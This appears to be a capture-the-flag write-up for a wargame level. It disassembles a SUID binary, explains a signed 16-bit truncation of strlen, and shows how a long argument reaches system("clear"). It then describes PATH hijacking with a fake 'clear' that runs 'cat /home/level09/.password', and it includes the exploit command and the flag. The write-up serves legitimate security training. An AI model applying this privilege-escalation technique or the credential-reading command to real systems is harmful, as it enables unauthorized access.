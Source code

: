 ## exploit


We've got only ELF file and we must find right vuln. to read `.password` file
```assembly
	08048464 <main>:
	 8048464:	55                   	push   %ebp
	 8048465:	89 e5                	mov    %esp,%ebp
	 8048467:	83 e4 f0             	and    $0xfffffff0,%esp
	 804846a:	83 ec 20             	sub    $0x20,%esp
	 804846d:	83 7d 08 01          	cmpl   $0x1,0x8(%ebp)
	 8048471:	7f 1d                	jg     8048490 <main+0x2c>
	 8048473:	8b 45 0c             	mov    0xc(%ebp),%eax
	 8048476:	8b 10                	mov    (%eax),%edx
	 8048478:	b8 c0 85 04 08       	mov    $0x80485c0,%eax
	 804847d:	89 54 24 04          	mov    %edx,0x4(%esp)
	 8048481:	89 04 24             	mov    %eax,(%esp)
	 8048484:	e8 ff fe ff ff       	call   8048388 <printf@plt>
	 8048489:	b8 00 00 00 00       	mov    $0x0,%eax
	 804848e:	eb 60                	jmp    80484f0 <main+0x8c>
	 8048490:	8b 45 0c             	mov    0xc(%ebp),%eax
	 8048493:	83 c0 04             	add    $0x4,%eax
	 8048496:	8b 00                	mov    (%eax),%eax
	 8048498:	89 04 24             	mov    %eax,(%esp)
	 804849b:	e8 d8 fe ff ff       	call   8048378 <strlen@plt>
	 80484a0:	66 89 44 24 1e       	mov    %ax,0x1e(%esp)
	 80484a5:	66 83 7c 24 1e 00    	cmpw   $0x0,0x1e(%esp)
	 80484ab:	79 32                	jns    80484df <main+0x7b>
	 80484ad:	c7 04 24 d8 85 04 08 	movl   $0x80485d8,(%esp)
	 80484b4:	e8 df fe ff ff       	call   8048398 <puts@plt>
	 80484b9:	c7 04 24 f5 85 04 08 	movl   $0x80485f5,(%esp)
	 80484c0:	e8 d3 fe ff ff       	call   8048398 <puts@plt>
	 80484c5:	c7 04 24 0b 86 04 08 	movl   $0x804860b,(%esp)
	 80484cc:	e8 c7 fe ff ff       	call   8048398 <puts@plt>
	 80484d1:	c7 04 24 27 86 04 08 	movl   $0x8048627,(%esp)
	 80484d8:	e8 7b fe ff ff       	call   8048358 <system@plt>
	 80484dd:	eb 0c                	jmp    80484eb <main+0x87>
	 80484df:	c7 04 24 2d 86 04 08 	movl   $0x804862d,(%esp)
	 80484e6:	e8 ad fe ff ff       	call   8048398 <puts@plt>
	 80484eb:	b8 00 00 00 00       	mov    $0x0,%eax
	 80484f0:	c9                   	leave  
	 80484f1:	c3                   	ret
```
As we can see is required one argument.
We can notice that the program performs a call to `system("clear")` without specifying absolute path.
So the idea is to:
* find a way to reach that system
* put a clear.c program in tmp that cat the flag
* exporting in PATH env var before `usr/bin` our `tmp` directory
* execute suid program

The program takes the least 16 bits of the integer that represent length of our argument.
These bits are treat as signed bit, so we have the last bit as sign.

If these bits represent non-positive number, then the execution continue and the program perform a system launching clear command.



I obtain, with `which` command, the path of `clear` command(/usr/bin).
Then we create in `/tmp/ourdir` a `.c` file named `clear` which contains a system with `cat /home/level09/.password` argument.


We can exploit the program: export PATH env. variable and put `/tmp/ourdir` before `/usr/bin`.
The idea is that when SUID program perform `clear` with `system`, will search first in our directory and will find a clear binary that perform a cat to flag file.


So we go back in ur directory and we launch:		
```bash
$ ./bin09 $(python -c 'print "a"*65535')
```

##### flag: "#FAILstrlen#F411"

	


